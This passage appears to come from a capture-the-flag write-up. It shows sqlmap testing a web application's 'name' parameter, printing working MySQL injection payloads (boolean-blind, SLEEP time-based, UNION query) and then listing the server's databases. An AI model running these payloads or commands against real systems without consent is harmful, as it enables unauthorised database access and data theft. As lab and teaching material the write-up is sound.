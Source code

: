 Testing for SQL injections:
```
$ sqlmap -r logs.req --batch
                                                     
       __H__                                                                                                                                           
 ___ ___[)]_____ ___ ___  {1.6.3#stable}                                                                                                               
|_ -| . [)]     | .'| . |                                                                                                                              
|___|_  [,]_|_|_|__,|  _|                                                                                                                              
      |_|V...       |_|   https://sqlmap.org                                                                                                           
                                                                                                                                                       
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all ap
plicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program         
                                                                                                                                                       
[*] starting @ 09:43:11 /2022-03-22/

...[snip]...

sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: name (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: name=admin') AND 5589=5589 AND ('DNaJ'='DNaJ

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=admin') AND (SELECT 8574 FROM (SELECT(SLEEP(5)))xsgZ) AND ('KDae'='KDae

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: name=admin') UNION ALL SELECT NULL,NULL,CONCAT(0x7171786a71,0x4b6b4e524f4c51667345537049627879587273746d566d4474634f6b77594c746e4e496e4c4b5657,0x7162627871)-- -
---
[09:43:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.12
```

Yes! It is vulnerable to SQL injection. We see that the database is MySQL so we can add `-dbms=mysql` to our next queries. Lets enumerate this databases.

Databases:
```bash
sqlmap -r logs.req --batch -dbms=mysql --dbs

[09:48:37] [INFO] fetching database names
available databases [4]:
[*] cmsmsdb
[*] information_schema
[*] logs
[*] Overflow
```
